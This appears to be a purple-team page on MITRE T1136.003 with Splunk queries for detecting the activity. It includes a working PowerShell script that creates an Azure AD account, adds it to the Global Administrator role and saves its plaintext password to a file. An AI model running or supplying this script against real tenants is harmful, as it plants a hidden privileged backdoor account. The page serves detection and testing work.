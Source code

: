 # Create Account: Cloud Account (Subtechnique T1136.003)

### Attack technique
The Below script will create a cloud-only account in Azure AD.
``` powershell
$TenantDetails = $NULL
$CurrentlyLoggedInUser = $NULL
$OnMicrosoftDomain = $NULL
$connection = $NULL
$CurrentTimestamp = [DateTime]::Now.ToString("yyyyMMdd-HHmmss")
try { 
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Already connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"

} 
catch [Microsoft.Open.Azure.AD.CommonLibrary.AadNeedAuthenticationException] { 
    Write-Host "You're not connected to AzureAD. Connecting now..."; 
    $connection = Connect-AzureAD
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"
}
$CurrentlyLoggedInUser
$CurrentUserId = Get-AzureADUser -Filter "UserPrincipalName eq '$CurrentlyLoggedInUser'" | select -ExpandProperty ObjectId

$EmergencyUserUPNPrefix = Read-Host("Enter the name of the user you want to create or hit enter for the script to create one.")
if($EmergencyUserUPNPrefix -eq "")
{
	$EmergencyUserUPNPrefix = "TempUser_" + $CurrentTimestamp
}
$UserDisplayName = $EmergencyUserUPNPrefix 
$TenantDomain = $Connection.TenantDomain
$OnMicrosoftDomain = $CurrentlyLoggedInUser.substring($CurrentlyLoggedInUser.IndexOf('@'))
$OnMicrosoftDomain
$UserPrincipalName = $EmergencyUserUPNPrefix+$OnMicrosoftDomain

$EmUser = $NULL

try{
    $EmUser = Get-AzureADUser -ObjectId $UserPrincipalName -ErrorAction silentlycontinue
    write-output("Emergency user " + $UserPrincipalName + ' already exists.')
}catch{
    write-output("Emergency user " + $UserPrincipalName + ' does not exist. Creating now..')
    Add-Type -AssemblyName System.Web
    $UserPassword = [System.Web.Security.Membership]::GeneratePassword(32,2)
    $PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
    $PasswordProfile.Password = $UserPassword
    $UserPassword
    $NewUser = New-AzureADUser -DisplayName $UserDisplayName -PasswordProfile $PasswordProfile -AccountEnabled $true -UserPrincipalName $UserPrincipalName -MailNickName "EmUser"

    # Adding the new user to Global Admin role
    Write-output "Adding the new user to Global Admin r+ole"
    $GlobalAdminRole = Get-AzureADDirectoryRole | Where-Object { $_.displayName -eq  "Global Administrator"} 
    Add-AzureADDirectoryRoleMember -ObjectId $GlobalAdminRole.ObjectId -RefObjectId $NewUser.ObjectId 

    # Saving the details for the app
    $temp_location = (get-location).Drive.Root+"office365_temp\"
    $temp_file = $temp_location + $CurrentTimestamp+".txt"
    New-Item $temp_location -ItemType Directory -Force | Out-Null
    New-Item $temp_file -ItemType File -Force | Out-Null
    Add-Content $temp_file ("Tenant Domain: " + $AzureADSession.TenantDomain)
    Add-Content $temp_file ("Tenant Id: " + $AzureADSession.TenantId)
    Add-Content $temp_file ("Username: " + $UserPrincipalName)
    Add-Content $temp_file ("Password: " + $UserPassword)
    .\notepad.exe $temp_file
    write-output("User details written to the file\r\n")
}
```
When the script is run, It asks the name of the user to be created.<br>
If we just hit enter, It creates a user named "TempUser_" followed by the current date-time. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136.png"></img>
<br>
Azure AD user is created as seen in the Azure portal. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136_1.png"></img>
<br>

### Splunk Detections
#### Create user event
```powershell
index=azure sourcetype="azure:aad:audit" activityDisplayName="Add user" result="success"
| spath targetResources{}
| rename targetResources{}.userPrincipalName as UserAdded initiatedBy.user.userPrincipalName as CreatedByUPN  additionalDetails{}.value as UserAgent
| table _time UserAdded CreatedByUPN  UserAgent
```
<br>
Newly created user is found in the search. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136_2.png"></img>

Note : "Swagger-Codegen/1.4.0.0/csharp" is the user agent when Azure AD PowerShell is used to create the user.
<br>

#### The User was created outside PIM (e.g. PowerShell)
```powershell
index=azure operationType="RoleElevatedOutsidePimAlert" result="success" 
| rename targetResources{}.displayName as key_5, targetResources{}.userPrincipalName as key_6
| eval a = mvzip(key_5,key_6)
| makemv a delim=","
| eval RoleNameUserAddedto  = mvindex(a,0)
| eval UserAdded = mvindex(a,3)
| rename initiatedBy.user.displayName as CreatedByName, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAdded RoleNameUserAddedto CreatedByName CreatedByUPN 
```